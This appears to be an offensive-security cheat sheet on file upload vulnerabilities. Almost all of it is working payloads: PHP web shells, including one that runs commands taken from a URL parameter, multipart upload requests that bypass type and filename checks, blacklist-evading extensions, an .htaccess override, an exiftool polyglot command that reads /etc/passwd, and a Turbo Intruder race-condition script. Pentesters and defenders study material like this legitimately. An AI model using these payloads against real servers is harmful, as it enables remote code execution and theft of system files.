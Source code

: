 ```yaml
---
title: File Upload Vulnerabilities
desc: Examples of File Upload Vulnerabilities.
tags: [Web]
alts: []
website:
render_with_liquid: false
---
```


## Web shell (.php)

```php
<?php echo file_get_contents('/etc/passwd');  ?>

// https://vulnerable.com/exploit.php?cmd=whoami
<?php echo system($_GET['cmd']); ?>
```

<br />

## Content-Type validation (change Content-Type)

```php
POST /upload HTTP/1.1
...

------abcdefghijk
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: image/jpeg

<?php echo file_get_contents('/etc/passwd');  ?>

------abcdefghijk
...
```

<br />

## Directory Traversal (change filename)

```php
POST /upload HTTP/1.1
...

------abcdefghijk
Content-Disposition: form-data; name="avatar"; filename="..%2fexploit.php"
Content-Type: application/x-php

<?php echo file_get_contents('/etc/passwd');  ?>

------abcdefghijk
```

<br />

## File extensions for bypass blacklist

```
exploit.php
exploit.php3
exploit.php4
exploit.php5
exploit.phtml
exploit.php.
exploit.php.jpg
exploit.php.png
exploit%2Ephp
exploit.p.phphp
exploit.php%00.jpg
```

<br />

## Override the server configuration

```php
POST /upload HTTP/1.1
...

------abcdefghijk
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain

AddType application/x-httpd-php .abc

------abcdefghijk
```

<br />

## Polyglot web shell (using exiftool)

```sh
exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" example.jpg -o polyglot.php
```

<br />

## Race condition (using Turbo Intruder)

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=10,)

    request_post = '''POST /avatar/upload HTTP/1.1
Host: vulnerable.com
...
...
Connection: close

------abcdefghi
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/x-php

<?php echo file_get_contents('/etc/passwd');  ?>

------abcdefghijk--

'''

    request_get = '''GET /files/avatars/exploit.php HTTP/1.1
Host: vulnerable.com
...
...
Connection: close


'''

    engine.queue(request_post, gate='race1')
    for i in range(5):
        engine.queue(request_get, gate='race1')


    engine.openGate('race1')
    engine.complete(timeout=60)
    


def handleResponse(req, interesting):
    table.add(req)
```
